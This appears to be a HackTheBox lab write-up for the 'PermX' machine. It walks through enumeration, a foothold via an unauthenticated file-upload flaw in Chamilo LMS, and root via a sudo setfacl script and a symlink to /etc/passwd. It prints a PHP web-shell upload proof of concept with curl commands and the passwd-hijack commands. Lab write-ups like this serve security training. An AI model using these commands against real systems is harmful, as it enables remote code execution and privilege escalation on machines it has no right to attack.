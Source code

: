 | Name            | Usage                                                                               |
| --------------- | ----------------------------------------------------------------------------------- |
| Platform        | HTB                                                                                 |
| Difficulty      | Permx                                                                               |
| OS              | Linux                                                                               |
| Used techniques | know exploit                                                                        |
| Technologies    | html, php, chamilo, hidden directories                                              |
| Tools           | gobuster,  BurpSuite, sqlmap, nc, strings, weak perms, symlink, discover credential |
| CVEs            | CVE-2023-34944                                                                      |

## Enumeration


```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.54 seconds
```


Important points: Ubuntu, hostnamp.
Possible users, enumeration from website: noah, elsie, ralph, mia and john doe.
### Directories

There are no directories out of the web site spidern

/courses.html
/team.html                    
/contact.html             
/index.html                 
/about.html                
/404                     
/testimonial.html            

None of them give us important information. There is no clear attack vector on this site.

### subdomains

**lms.permx.htb php extension**, is an admin panel.

![[Pasted image 20240710073644.png]]


If we try to enumerate directories, we find /documentation and there says that the version is 1.11, but we can not find a exploit for this version. However, we saw that we can still. Apart from that, we discover: */bin, /src/, /app,* ...
 
![[Pasted image 20240710073416.png]]

If we enumerate those directories, we will find config files and files with *.php* extension that can not be retrieved. It is a rabbit hole.

After that, looking for information about this app we found a upload vulnerability in one of the directories: *"Unrestricted file upload in big file upload functionality in `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` in Chamilo LMS <= v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell."*

## Foothold

Knowing which vulnerability it has, we just need to upload a reverse shell. This is the PoC:

```shell
$ echo '<?php system("id"); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' 'http://<chamilo>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
$ curl 'http://<chamilo>/main/inc/lib/javascript/bigupload/files/rce.php'

```

After getting shell, we can get access to those *php* files that we couldn't read before. In particular, *app/config* files will give us user account credentials:

![[Pasted image 20240710075118.png]]

If we spray them, we get ssh.



## Privilege Escalation

We can execute sudo for one script.:

![[Pasted image 20240710075214.png]]

There is a section for **setfacl** in gtfobins, however there are restrictions if we try to apply this script for files outside our home directory. One way to bypass them is using *symlinks.

If we create a symlink pointing to /etc/passwd, we can modify the perms in order to get root privileges.

In resume, we can execute on binary (**setfacl**) with root privileges to assign */etc/passwd* with **weak permission**.

```shell
ln -s /etc/passwd file
sudo /opt/acl.sh mtz rw ~/file
vi file
```


![[Pasted image 20240710080348.png]]
#### Developed map


![[permx10.10.11.23.png]]
#### Sources
https://starlabs.sg/advisories/23/23-4220/
https://gtfobins.github.io/gtfobins/setfacl/
https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/